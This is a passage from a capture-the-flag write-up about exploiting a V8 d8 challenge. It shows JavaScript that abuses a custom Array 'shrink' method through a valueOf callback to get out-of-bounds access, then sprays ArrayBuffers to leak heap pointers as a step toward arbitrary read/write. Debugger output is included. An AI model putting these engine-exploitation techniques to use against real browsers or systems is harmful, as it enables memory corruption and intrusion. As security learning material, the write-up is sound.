 I tried exploiting this for a while, but the register state at the control flow hijacking site wasn't great for achieving any kind of stack pivot.

# Arb Read/Write

Looking back this writeup [https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/), they hijacked a pointer to the `backing_store` of an ArrayBuffer object.
So I figured I'd try just spraying ArrayBuffers and see if I can just directly edit their backing store using the OOB I have.

Frustratingly, there is different behavior between running `./d8 <js_file_path>` versus `./d8` and sending input to the REPL, so from this point on I use the prior method to be consistent with remote.

```js
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { f64_buf[0] = val; return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); }

function itof(val) { u64_buf[0] = Number(val & 0xffffffffn); u64_buf[1] = Number(val >> 32n); return f64_buf[0]; }

let arr = new Array(2000).fill(1.1);
evil = { valueOf() { for (let i = 0; i < 1999; i++) { arr.pop(); } return 1999; } };
arr.shrink(evil)

let arrs = new Array()
for (let i = 0; i < 100000; i++) { arrs.push(new ArrayBuffer(8)); }

for (let i = 0; i < 100; i++) { console.log(i + ': 0x' + ftoi(arr[i]).toString(16)); }

// OUT:
// ...
// 25: 0x5555566c8830
// ...
// 30: 0x57ef24d000000000
// 31: 0x22800000005555
```

Turns out spraying 100000 ArrayBuffers was enough to reclaim the memory of our array elements! The code pointer is still there and at index 30/31 there is actually a misaligned heap pointer:

```
gef> vmmap 0x555557ef24d0
[ Legend:  Code | Heap | Stack | Writable | ReadOnly | None | RWX ]
Start              End                Size               Offset             Perm Path
0x0000555557e50000 0x00005555594cb000 0x000000000167b000 0x0000000000000000 rw- [heap]
```

This is very likely to be a `backing_store` field of one of the ArrayBuffers we allocated.
